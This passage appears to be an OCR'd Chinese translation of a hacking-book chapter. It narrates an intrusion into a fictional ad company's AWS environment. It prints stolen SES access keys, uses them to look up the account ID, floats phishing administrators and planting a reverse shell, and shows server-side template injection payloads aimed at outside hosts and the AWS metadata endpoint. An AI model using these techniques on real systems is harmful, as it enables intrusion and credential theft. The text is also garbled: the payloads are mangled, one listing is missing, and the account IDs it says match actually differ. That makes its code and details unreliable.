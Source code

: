 列表 6-1：访问*surveysandstats.com*设置文件

我们获取了 SES 12（简单邮件服务）的凭据，它是一个 AWS 托管的邮件服务，提供 SMTP 网关、POP3 服务器等。这完全是预料之中的，因为应用程序的主要活动是将电子邮件结果发送给候选人。

这些凭证可能具有非常有限的作用范围，比如发送邮件。我们可以尝试发挥创意，利用这个新获得的能力钓鱼攻击一些管理员，但现在，这些凭证将服务于一个更迫切的目标：在我们花更多时间之前，确认 *surveysandstats.com* 确实属于 MXR Ads 或至少在相同的 AWS 环境中运行。

### 确认所有者

你可能记得我们在第四章中通过在 Gist 和 Pastebin 上查找公共笔记时，发现了那个可疑的 *surveysandstats.com* 网站。根据我们目前知道的，它可能是一个与我们的真正目标无关的完全独立的组织。让我们查明真相。首先，我们将尝试获取账户 ID，这只需一次 API 调用，并且不需要任何特殊权限，因此我们可以使用刚刚找到的 SES 密钥。每个默认情况下都有访问此信息的 AWS IAM 用户。在 清单 6-2 中，我们使用了从 清单 6-1 获取的访问密钥 1 和秘密密钥 2 来获取账户 ID。

```
root@Point1:~/# **vi ~/.aws/credentials**
[ses]
aws_access_key_id = **AKIA44ZRK6WSSKDSKJPV**
aws_secret_access_key = **M0pQIv3FlDXnbyNFQurMZ9ynxD0gdNkRUP1r0o3Z**

root@Point1:~/# **aws sts get-caller-identity --profile ses**
{
  "UserId": "AIDA4XSWK3WS9K6IDDD0V",
  "Account": "886371554408",
  "Arn": "arn:aws:iam::886477354405:user/ses_ro_user"
}
```

清单 6-2：追踪 *surveysandstats.com* 账户 ID

正在按计划进行：886371554408 是我们在第五章中找到的与 MXR Ads 演示应用程序相关的相同 AWS 账户 ID。我们成功了！

## 偷运桶

现在，我们唯一想做的就是植入一个反向 Shell，然后安静地喝着咖啡，同时让一些后期利用插件筛查几 GB 的数据，寻找密码、秘密和其他宝贵的东西。但生活并不总是如此顺利。

当我们尝试从我们在第三章创建的自定义域加载任何文件时，请求始终无法到达目标：

```
# Payload

email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__()
282.communicate()[0]}}...

`<empty>`
```

某种过滤器似乎阻止了 HTTP 请求向外界发送。也没关系。我们将尝试反向操作，查询元数据 API 169.254.169.254。这个默认的 AWS 端点帮助我们在第五章的示例应用程序中获取了很多信息。希望它能为我们提供更多的凭证供我们操作……或者不会：

```
# Payload

email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__()
282.communicate()[0]}}...

`<empty>`
```
